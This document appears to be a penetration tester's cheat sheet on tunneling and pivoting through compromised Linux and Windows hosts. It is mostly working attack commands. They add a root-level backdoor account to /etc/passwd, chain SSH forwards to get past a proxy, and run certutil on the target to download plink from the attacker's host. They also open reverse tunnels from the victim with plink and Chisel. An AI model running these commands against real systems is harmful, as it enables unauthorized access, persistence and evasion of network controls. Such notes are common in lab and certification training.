

# Tunneling

**<u>Linux Tunnels:</u>**

Let’s SSH into the server, and setup a local port forward to instruct any traffic originating from your KALI box that hits TCP 3000 on 127.0.0.1 to go through the SSH connection, and connect to TCP 3333 on 127.0.0.1 of the Gophish server.

```bash
ssh -p 22 nemo@192.168.1.220 -L 127.0.0.1:3000:127.0.0.1:3333
```

To access these services from Kali, an SSH remote port forward is needed... The setup is a bit complex so here is the run down:

- Set Kali to run an SSH server on TCP port 443 because the proxy only allows HTTP traffic
- SSH from the pivot to Kali over TCP port 443 (HTTPS) and set up a remote port forward to TCP port 22 on the pivot
- SSH on kali through the remote forwarded port to the pivot using dynamic port forwarding
- Enable proxychains to use the dynamic port forwarding port on Kali

This is basically a tunnel within a tunnel to bypass the proxy:

```bash
# on pivot, create a new user account with a known password
echo "pwn:$(/usr/bin/openssl passwd -1 -salt pwn_pass):0:0:root:/root:/bin/bash" >> /etc/passwd
# on kali, edit SSH config to run SSH on TCP port 443 and enable support for old ciphers:
# Port 22
# Port 443
# KexAlgorithms +diffie-hellman-group-exchange-sha1
# Ciphers +aes128-cbc
sudo vim /etc/ssh/sshd_config 
sudo systemctl restart sshd
# on pivot, ssh to Kali over HTTPS and setup a remote port foward to TCP port 127.0.0.1:22
/usr/bin/ssh -f -N -v -p 443 -R 127.0.0.1:11111:127.0.0.1:22 kali@192.168.119.131
# on kali, create a dynamic port foward through the remote port foward with new account
sudo ssh -N -v -D 127.0.0.1:22222 -p 11111 -oKexAlgorithms=diffie-hellman-group1-sha1 kali@127.0.0.1
# on kali, enable proxychains to use this new dynamic port
# NOTE: make sure there no other entires at the bottom of the file
sudo sh -c 'echo "socks5 127.0.0.1 22222" >> /etc/proxychains4.conf' 
```

After *all this work*, it is now possible to interact with the target through proxychains directly!

Sample SMB enum using proxychains:

```bash
sudo proxychains4 -q rpcclient -N 10.2.2.23
sudo proxychains4 -q smbclient -N -L //10.2.2.23
sudo proxychains4 -q smbclient -U 'pwn%pass' -L //10.2.2.23

sudo proxychains4 -q telnet 10.2.2.23 23
```

Scanning through HTTP:



```bash
ulimit -n 8192 # prevent file access error during scanning
gobuster dir -t 100 -r -q -z -o gobuster.7443.txt -x php \
  --proxy socks5://127.0.0.1:22222 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.2.2.31:7443/ 
```


<u>**Windows Tunnels:**</u>

```bash
# on kali version of plink is old, download a new one 
wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe
# on kali, host it for download
sudo python3 -m http.server 80
# on target, download plink.exe
certutil.exe -urlcache -split -f http://192.168.119.236/plink.exe %TEMP%\plink.exe
# on target, port-foward the MySQL connection to Kali on port 3306
%TEMP%\plink.exe -ssh -P 22 -l kali -v -N -R 3306:127.0.0.1:3306 192.168.119.236
# on kali, login using the credentials from the exploit
mysql -u root -pdsfdfkj435dgf -h 127.0.0.1
```

Now execute it. This command will SSH to the <attacker-ip> as <user> with a password of <password> and open port 5555 that will be fowarded to 127.0.0.1:910 on the target machine:

- ​	When running plink.exe for the first time, the binary will hang and ask "Store key in cache? (y/n)". So a pipe of the character y is used to bypass this
- ​	NOTE: If you get the following error, download the newer version of plink from here: https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
   FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,[curve25519-sha256@libssh.org](mailto:curve25519-sha256@libssh.org),ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256)

```bash
cmd.exe /c echo y | %TEMP%\plink.exe -ssh -l <user> -pw <password> -R <attacker-ip>:5555:127.0.0.1:910 <attacker-ip>
```

After this, the local port 5555 will connect to the bankv2.exe binary

```bash
nc 127.0.0.1 5555
```


**<u>Using Chisel</u>**

Download the proper versions from here: https://github.com/jpillora/chisel/releases

```bash
#on linux/host machine
./chisel_1.7.4_linux_amd64 server -p 8000 --reverse

#on victim windows
.\chisel.exe client $my-ip:8000 R:9999:127.0.0.1:9999

#get another shell session on the box to do other things 
#now you can interact with victim machine on port 9999
```

